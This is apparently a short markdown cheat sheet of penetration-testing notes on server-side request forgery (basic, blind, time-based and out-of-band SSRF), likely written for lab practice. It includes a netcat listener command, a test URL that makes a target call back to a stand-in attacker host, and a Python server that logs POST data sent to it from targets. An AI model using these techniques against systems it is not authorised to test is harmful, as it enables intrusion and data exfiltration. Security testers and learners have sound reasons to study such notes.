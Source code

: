 # SSRF

## TABLE OF CONTENT
- **[Server-side Request Forgery](#server-side-request-forgery)**
- **[lind SSRF](#blind-ssrf)**
- **[Time-based SSRF](#time-based-ssrf)**

### Server-side Request Forgery
- To check if the application is vulnerable

```
1. Set up Netcat listener: nc -lnvp 5555
2. Try to connect back to our server. 
https://example.com/load?q=http://$ATTCKER:5555
3. If the connectino is established, the target is vulnerable to SSRF
```

### Blind SSRF
- Similar to regular SSRF, except that there's no information display on the front end. So we have to check.

```
1. Set up Netcat listener: nc -lnvp 5555
2. Upload file that can create connections to our machine
3. If the connection is established, the target is vulnerable.
```

### Time-based SSRF
- We can try to have the target to request resources and check the time it responds in BurpSuite. If the requested resources are invalid and it takes the applications way longer to respond, we can confirm the vulnerability

### Out-of-band SSRF
Create a server on Attacking Machine `server.py`

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

